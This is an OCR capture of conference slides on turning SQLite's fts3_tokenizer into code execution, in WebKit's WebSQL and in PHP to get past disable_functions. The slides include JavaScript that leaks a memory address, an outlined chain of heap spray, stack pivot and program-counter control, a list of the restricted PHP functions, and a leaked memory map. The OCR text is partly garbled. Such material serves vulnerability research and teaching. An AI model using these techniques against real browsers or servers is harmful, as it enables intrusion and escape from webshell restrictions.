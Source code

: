 var db = openDatabase('mydb', '1.0', 'Test DB', 2 * 1024 * 1024);

var sql = "hex(fts3_tokenizer('simple'))";

db.transaction(function (tx) {

bypass

tx.executeSql('DROP TABLE IF EXISTS BAD;')

tx.executeSql('CREATE TABLE BAD (id, x DEFAULT(' + sql + '));');

tx.executeSql('INSERT INTO BAD (id) VALUES (1);');

tx.executeSql('SELECT x FROM BAD LIMIT 1;', [], function (tx, results) {

var val = results.rows.item(0).x;

});

}, function(err) {

log(err.message)

});

24

fts3_tokenizer code execution on browser
 SQLite3 is statically linked in webkit's binary, so select fts3_tokenizer('simple') can leak the base address of WebKit
 Calculate the address with hard-coded offsets (because we have not archived arbitrary R/W yet)
 Spray the sqlite3_tokenizer_module struct, set the xCreate callback to the stack pivot gadget
 Use select fts3_tokenizer('simple', x'deadbeefdeadbeef') to control pc
25

fts3_tokenizer code execution in PHP
 Administrators usually set disable_functions to restrict the abilities of webshells
disable_functions=exec,passthru,shell_exec,system,proc_open,popen,...
 PHP is not really sandboxed, all restrictions can be bypassed through native code execution
 Use almost the same strategy of WebSQL, but slightly different
26

fts3_tokenizer code execution in PHP

 LAMP stack loads libphp and libsqlite3 as separated shared library, with version information it's possible to recover the library maps from the leaked simple_tokenizer with (silly) hardcoded offsets

... 7fadb00fb000-7fadb01bc000 r-xp 00000000 08:01 569 7fadb01bc000-7fadb03bb000 ---p 000c1000 08:01 569 7fadb03bb000-7fadb03be000 r--p 000c0000 08:01 569 7fadb03be000-7fadb03c0000 rw-p 000c3000 08:01 569 ... 7fadb6136000-7fadb6a34000 r-xp 00000000 08:01 173493 7fadb6a34000-7fadb6c33000 ---p 008fe000 08:01 173493 7fadb6c33000-7fadb6cde000 r--p 008fd000 08:01 173493 7fadb6cde000-7fadb6ceb000 rw-p 009a8000 08:01 173493

/usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6 /usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6 /usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6 /usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6
/usr/lib/apache2/modules/libphp5.so /usr/lib/apache2/modules/libphp5.so /usr/lib/apache2/modules/libphp5.so /usr/lib/apache2/modules/libphp5.so
27
